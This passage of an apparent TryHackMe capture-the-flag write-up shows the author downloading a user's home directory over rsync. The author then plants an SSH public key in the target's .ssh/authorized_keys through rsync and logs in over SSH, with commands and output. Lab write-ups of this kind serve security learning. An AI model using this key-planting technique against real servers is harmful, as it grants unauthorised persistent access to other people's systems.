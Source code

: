 Let's connect to rsync and download all files and directories:  

```
rsync -av rsync://rsync-connect@${target}/files ./rsync_shred                                                                                                                                        139 ⨯
Password: 
receiving incremental file list
created directory ./rsync_shred
...
<REDCATED>
...
```                                                        

The data we downloaded is from a user's home directory.  We find our third flag looking through the files and directories, but nothing else of much worth. However, there is an empty `.ssh` directory. So let's create ssh keys, upload the ssh keys and attempt to login:  

```
ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/edward/.ssh/id_rsa): /home/edward/Documents/tryhackme/vulnnetinternal/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/edward/Documents/tryhackme/vulnnetinternal/id_rsa
Your public key has been saved in /home/edward/Documents/tryhackme/vulnnetinternal/id_rsa.pub
The key fingerprint is:
SHA256:l3D5K3+0fzkl6NM+E7WbW03XjLCTZDMEbajBWTuzThc edward@repoman
The key's randomart image is:
+---[RSA 3072]----+
|       . oo+.    |
|        + .+o    |
|        .o*.E    |
|        .o O B oo|
|        S = *...*|
|         + ..o+o+|
|          o..o +B|
|           oo *=o|
|            .+.==|
+----[SHA256]-----+
```

```
cat id_rsa.pub > authorized_keys
rsync -av authorized_keys rsync://rsync-connect@${target}/files/<username>/.ssh/
``` 

```
ssh -i id_rsa <username>@${target}                                                                                                                                                                 130 ⨯
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

```